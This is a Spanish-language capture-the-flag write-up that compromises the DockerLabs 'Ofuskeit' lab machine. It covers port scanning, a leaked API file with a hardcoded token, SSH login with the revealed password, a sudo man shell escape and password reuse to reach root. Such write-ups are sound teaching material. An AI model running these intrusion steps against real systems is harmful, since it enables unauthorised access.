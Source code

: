 # DockerLabs - Ofuskeit Machine Writeup

**Máquina:** Ofuskeit  
**Dificultad:** Media  
**Plataforma:** DockerLabs  
**Fecha:** Junio 2025  

---

## Reconocimiento

### Escaneo de Red

Iniciamos con un escaneo de puertos para identificar servicios activos:

```bash
nmap -sV -sC -T4 172.17.0.2
```

**Resultado:**
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u6
80/tcp   open  http    Apache httpd 2.4.62 ((Debian))
3000/tcp open  http    Node.js Express framework
```

**Servicios identificados:**
- **SSH (22/tcp)** - OpenSSH 9.2p1
- **HTTP (80/tcp)** - Apache 2.4.62
- **HTTP (3000/tcp)** - Node.js/Express

---

## Enumeración de Servicios

### Puerto 80 - Servidor Web Apache

Accedemos al servicio web principal:

```bash
curl http://172.17.0.2/
```

La página principal muestra contenido estático sobre "Servicios de Mantenimiento Informático" y referencia un archivo `script.js`.

#### Enumeración de Directorios

```bash
gobuster dir -u http://172.17.0.2 \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,txt,html,js
```

**Archivos encontrados:**
- `/script.js` (200)
- `/api.js` (200)
- `/javascript/` (301 - Redirect)

### Puerto 3000 - Node.js Express

```bash
curl -I http://172.17.0.2:3000/
```

**Respuesta:**
```
HTTP/1.1 404 Not Found
X-Powered-By: Express
```

El servidor Express está activo pero no sirve contenido en la ruta raíz.

---

## Análisis del Código Fuente

### Descarga y Análisis de script.js

```bash
curl http://172.17.0.2/script.js -o script.js
```

Al examinar `script.js`, encontramos código JavaScript ofuscado. Tras el proceso de desofuscación, determinamos que no contiene información crítica para el ataque.

### Descarga y Análisis de api.js

```bash
curl http://172.17.0.2/api.js -o api.js
```

**Contenido de api.js:**
```javascript
const express = require('express');
const app = express();
const PORT = 3000;

// Token válido hardcodeado
const tokenValido = "EKL56L4K57657JÑ456J74K5Ñ6754";

app.use(express.json());

app.post('/api', (req, res) => {
  const { token } = req.body;

  if (token === tokenValido) {
    return res.send("✅ Acceso concedido. Contraseña chocolate123");
  } else {
    return res.status(401).send("❌ Token inválido.");
  }
});

app.listen(PORT, () => {
  console.log(`🚀 API activa en http://localhost:${PORT}`);
});
```

**Información crítica extraída:**
- **Token válido:** `EKL56L4K57657JÑ456J74K5Ñ6754`
- **Endpoint:** `POST /api`
- **Credenciales reveladas:** Contraseña `chocolate123`

---

## Obtención de Credenciales

### Explotación de la API

Con el token descubierto, realizamos una petición POST al endpoint `/api`:

```bash
curl -s -X POST http://172.17.0.2:3000/api \
  -H "Content-Type: application/json" \
  -d '{"token":"EKL56L4K57657JÑ456J74K5Ñ6754"}'
```

**Respuesta:**
```
✅ Acceso concedido. Contraseña chocolate123
```

La API confirma que el token es válido y revela la contraseña `chocolate123`.

---

## Acceso Inicial

### Conexión SSH como admin

Con las credenciales obtenidas, intentamos acceso SSH:

```bash
ssh admin@172.17.0.2
```

**Password:** `chocolate123`

✅ **Acceso exitoso como usuario `admin`**

---

## Escalada de Privilegios

### Enumeración de Privilegios sudo

```bash
sudo -l
```

**Resultado:**
```
Matching Defaults entries for admin on b0c9284eeeba:
    env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin, use_pty

User admin may run the following commands on b0c9284eeeba:
    (balulito) NOPASSWD: /usr/bin/man
```

**Hallazgo crítico:** El usuario `admin` puede ejecutar `/usr/bin/man` como el usuario `balulito` sin contraseña.

### Explotación de sudo man (GTFOBins)

Consultando [GTFOBins](https://gtfobins.github.io/gtfobins/man/), identificamos que `man` puede ser explotado para obtener una shell:

```bash
sudo -u balulito man man
```

Una vez dentro del manual, ejecutamos:
```bash
!/bin/sh
```

**Resultado:** Shell como usuario `balulito`

```bash
balulito@b0c9284eeeba:/home/admin$ whoami
balulito
```

### Enumeración como balulito

Como usuario `balulito`, realizamos enumeración adicional pero no encontramos vectores obvios de escalada de privilegios:

- No hay archivos SUID interesantes
- No hay capabilities especiales
- No hay servicios vulnerables ejecutándose como root

---

## Acceso Root

### Reutilización de Credenciales

Recordando que la contraseña `chocolate123` funcionó para el usuario `admin`, decidimos probar la misma credencial para `root`:

```bash
su root
```

**Password:** `chocolate123`

✅ **Escalada exitosa a root**

```bash
root@b0c9284eeeba:/home/admin# whoami
root
```

### Verificación

```bash
root@b0c9284eeeba:/home/admin# id
uid=0(root) gid=0(root) groups=0(root)
```

**¡Compromiso completo de la máquina!**
